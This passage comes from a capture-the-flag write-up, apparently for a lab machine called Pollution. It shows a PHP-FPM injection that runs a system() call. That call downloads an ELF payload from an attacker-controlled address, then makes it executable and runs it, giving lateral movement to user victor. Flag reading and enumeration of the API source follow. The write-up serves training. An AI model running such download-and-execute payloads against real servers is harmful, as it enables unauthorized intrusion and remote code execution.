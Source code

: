 ```bash
$ python3 fpm.py -c '<?php system("wget 10.10.14.171:8000/dusk.elf -O /tmp/dusk.elf; chmod +x /tmp/dusk.elf; /tmp/dusk.elf"); ?>' localhost /var/www/developers/index.php
```

Successfully moved laterally to the user *victor* and read the user flag.

```bash
$ whoami
victor

$ id
uid=1002(victor) gid=1002(victor) groups=1002(victor)

$ cat /home/victor/user.txt
<REDACTED>
```

# Privilege Escalation

We can read the Pollution API’s source code.

```bash
$ pwd
/home/victor/pollution_api

$ ls -lah
total 116K
drwxr-xr-x  8 victor victor 4.0K Nov 21  2022 .
drwx------ 16 victor victor 4.0K Nov 21  2022 ..
drwxr-xr-x  2 victor victor 4.0K Nov 21  2022 controllers
drwxr-xr-x  2 victor victor 4.0K Nov 21  2022 functions
-rw-r--r--  1 victor victor  528 Sep  2  2022 index.js
-rwxr-xr-x  1 victor victor  574 Aug 26  2022 log.sh
drwxr-xr-x  5 victor victor 4.0K Nov 21  2022 logs
drwxr-xr-x  2 victor victor 4.0K Nov 21  2022 models
drwxr-xr-x 97 victor victor 4.0K Nov 21  2022 node_modules
-rw-r--r--  1 victor victor  71K Aug 26  2022 package-lock.json
-rw-r--r--  1 victor victor  160 Aug 26  2022 package.json
drwxr-xr-x  2 victor victor 4.0K Nov 21  2022 routes
```

First, we need to get authenticated.
